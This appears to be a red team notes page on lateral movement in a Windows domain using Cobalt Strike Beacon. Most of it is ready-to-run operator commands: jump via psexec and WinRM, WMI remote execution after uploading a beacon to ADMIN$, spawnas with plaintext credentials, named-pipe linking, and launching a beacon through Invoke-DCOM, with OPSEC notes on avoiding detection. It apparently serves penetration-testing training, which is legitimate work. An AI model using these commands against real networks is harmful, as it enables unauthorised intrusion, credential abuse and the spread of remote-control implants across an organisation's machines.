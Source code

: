```yaml
---
title: Lateral Movement
category: 00 Red Team
order: 7
---
```


Moving laterally between computers in a domain is important for accessing sensitive information/materials, and obtaining new credentials. 

In this section we are goingto see how do a lateral movement with Cobalt Strike

# Execution commands

Cobalt Strike provides three strategies for executing Beacons, code or commands on remote targets.

To execute commands remotely we need admin privileges.

> **OPSEC Note**: A common way of testing local admin access on a target is to list the C$ directory.
>
>`beacon> ls \\dc01\c$`

## Jump 

`jump` command will spawn a beacon payload on the remote target, and if we use a P2P listener, will connect automatically.

Usage of `jump` command:
```
jump [method] [target] [listener]
```

We can use different methods:

```
beacon> jump

Beacon Remote Exploits
======================

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```

## Remote-exec

`remote-exec` command will simply execute commands on a remote target.

hey require more manual work to manage the payload, but do offer a wider degree of control over what gets executed on the target. You also need to connect to P2P Beacons manually using `connect` or `link`.

```
beacon> remote-exec

Beacon Remote Execute Methods
=============================

    Methods                         Description
    -------                         -----------
    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI
```

## Powershell and execute-assembly

We can specify the target in `powershell` and `execute-assembly` commands.

```
baecon> execute-assembly /path/payload.exe -computername=dc01
```

```
baecon> powershell Get-ChildItem -computername=dc01
```

## Spawn


Notice that due to problems of **CoInitializeSecurity** COM object, a different security context for example another user can not be used in the same beacon process.

To that reason we need to spawn another beacon.

`spawn` and `spawnas` starts a new session with the provided credentials. 

```
beacon> spawn
```
The `spawnas` command will spawn a new process using plaintext credentials and will inject a beacon payload into it.

```
beacon> spawnas CORP\user Passw0rd! smb-p2p-payload
[+] established link to child beacon: 10.10.10.10
```

> **Note**: A common mistake is to attempt this from a directory where te user does not have read access. Change directory to `C:\` and try it again.

# PowerShell Remoting

The `winrm` and `winrm64` methods can be used to use powershell remoting.

WinRM will return a **high integrity beacon running as the user** with which are going to be interacted.

```
# 64-bit target
beacon> jump winrm64 dc01 [P2P-Listener]

# 32-bit target
beacon> jump winrm dc01 [P2P-Listener]
```

> **Note**: We can use `Get-WmiObject` to determine the arhitecture of the remote system.


# PsExec

The `psexec` and `psexec64` commands, first a service binary is uploaded to the target system, then a starting windows service is created to execute that binary.

`psexec_psh` doesn't copy the binary to the target, but instead executes a PowerShell one-liner (always in 32-bit).

PsExec will return a beacon running by **SYSTEM**.

```
beacon> jump psexec64 dc01 [p2p-listener]
```

# Windows Management Instrumentation (WMI)

The `wmi` `remote-exec` method uses WMI's *process call create* to execute any command we specify on the target.

The most straight forward means of using this to upload a payload to the target system and use WMI to execute it.

```
beacon> cd \\dc01\ADMIN$
beacon> upload C:\p2p-smb-beacon.exe
beacon> remote-exec wmi dc01 C:\Windows\beacon.exe
```

After executing the beacon we will neeed to connect to it.

```
beacon> link dc01 \\dc01\pipe\[namepipe]
```

# Distributed Component Object Model (DCOM)

Beacon has no built-in capabilities to interact over DCOM, so we can use `Invoke-DCOM`.

* [https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1)


```
beacon> powershell-import .\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName dc01 -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
beacon> link dc01
```

> **OPSEC Note**: `DCOM` is more complicated to detect, since each method works in a different way. If `MMC20.Application` method spawns a process, the spawned process will be a child of `mmc.exe`.
>
> `ProcessId: 952`
> `Image: C:\Windows\beacon-smb.exe`
> `ParentImage: C:\Windows\System32\mmc.exe`